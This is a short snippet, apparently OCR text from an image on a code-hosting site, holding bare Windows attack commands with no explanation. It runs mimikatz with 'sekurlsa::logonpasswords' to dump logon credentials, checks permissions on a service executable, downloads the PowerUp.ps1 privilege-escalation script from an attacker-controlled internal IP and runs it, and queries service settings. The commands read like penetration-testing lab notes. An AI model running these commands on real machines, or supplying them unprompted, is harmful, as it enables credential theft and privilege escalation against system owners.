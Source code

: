 

```
.\mimikatz.exe 'privilege::debug' 'sekurlsa::logonpasswords' 'exit'
.\mimikatz.exe privilege::debug sekurlsa::logonpasswords exit
```







```
icacls "C:\BackupMonitor\BackupMonitor.exe"
iwr -uri http://192.168.45.161/PowerUp.ps1 -Outfile PowerUp.ps1
/PowerUp.ps1


Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'SearchIndexer'}
```







